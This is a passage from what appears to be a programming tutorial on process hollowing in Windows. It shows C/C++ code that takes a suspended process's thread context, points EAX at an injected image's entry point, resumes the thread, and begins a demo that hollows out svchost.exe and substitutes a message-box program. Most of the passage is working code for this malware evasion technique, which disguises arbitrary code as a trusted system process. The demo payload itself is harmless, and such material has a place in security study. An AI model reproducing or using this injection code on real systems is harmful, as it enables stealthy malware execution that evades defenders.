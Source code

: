 					if (!bSuccess)
					{
						  printf("Error writing memory\r\n");
						  continue;
					}
			  }
		}
 
## The Final Touches
With the source image loaded into the target process some changes need to be made to the process thread. First, the thread context must be acquired. Because only the EAX register needs to be updated the ContextFlags member of the CONTEXT structure can be set to CONTEXT_INTEGER.
 
		LPCONTEXT pContext = new CONTEXT();
		pContext->ContextFlags = CONTEXT_INTEGER;
		 
		printf("Getting thread context\r\n");
		 
		if (!GetThreadContext(pProcessInfo->hThread, pContext))
		{
			  printf("Error getting context\r\n");
			  return;
		}
 
After the thread context has been acquired the EAX member is set to the sum of the base address and the entry point address of the source image.

		DWORD dwEntrypoint = (DWORD)pPEB->ImageBaseAddress +
			  pSourceHeaders->OptionalHeader.AddressOfEntryPoint;
		 
		pContext->Eax = dwEntrypoint;
		 
		The thread context is then set, applying the changes to the EAX register

		printf("Setting thread context\r\n");
		 
		if (!SetThreadContext(pProcessInfo->hThread, pContext))
		{
			  printf("Error setting context\r\n");
			  return;
		}
		 
		Finally, the thread is resumed, executing the entry point of the source image.                     

		printf("Resuming thread\r\n");
		 
		if (!ResumeThread(pProcessInfo->hThread))
		{
			  printf("Error resuming thread\r\n");
			  return;
		}
 
The hollowing function is now ready to use. To test it, svchost.exe (the Windows service host) is hollowed out and replaced with a simple application that displays a message box.

		int _tmain(int argc, _TCHAR* argv[])
		{
			  char* pPath = new char[MAX_PATH];
			  GetModuleFileNameA(0, pPath, MAX_PATH);
			  pPath[strrchr(pPath, '\\') - pPath + 1] = 0;
			  strcat(pPath, "helloworld.exe");
			 